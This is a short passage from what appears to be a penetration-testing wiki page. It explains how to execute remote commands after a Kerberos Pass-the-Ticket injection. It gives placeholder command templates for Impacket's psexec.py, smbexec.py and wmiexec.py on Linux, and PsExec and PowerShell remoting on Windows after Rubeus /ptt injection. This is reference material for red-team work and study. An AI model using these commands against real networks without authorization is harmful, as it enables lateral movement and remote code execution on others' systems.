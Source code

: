 # 3. Execute commands via PTT

After injecting or obtaining the ticket in the correct format, we can connect to a machine remotely:

### Linux

{% tabs %}
{% tab title="SMB/RPC" %}
Execute remote commands with any of the following by using the TGT:

```bash
psexec.py <DOMAIN>/<USERNAME>@<IP/HOSTNAME> -k -no-pass
psexec.py -k -no-pass -dc-ip <DC_IP> <DOMAIN>/<USERNAME>@<IP/HOSTNAME> cmd.exe
smbexec.py <DOMAIN>/<USERNAME>@<remote_hostname> -k -no-pass
wmiexec.py <DOMAIN>/<user_name>@<IP/HOSTNAME> -k -no-pass
```

Parameters used:

* `-k` : Use Kerberos authentication. It takes the credentials from the ccache file (KRB5CCNAME) according to the target parameters. If no valid credentials can be found, it will use those specified on the command line.
{% endtab %}
{% endtabs %}

### Windows

The following commands only work if you have already injected the ticket with, for example, **Rubeus** with the `/ptt` parameter):

{% tabs %}
{% tab title="SMB" %}
```shell
.\PsExec.exe -accepteula \\<HOSTNAME> cmd
```
{% endtab %}

{% tab title="WinRM/Powershell Remoting" %}
```
Enter-PSSession -ComputerName <HOSTNAME>
```
{% endtab %}
{% endtabs %}
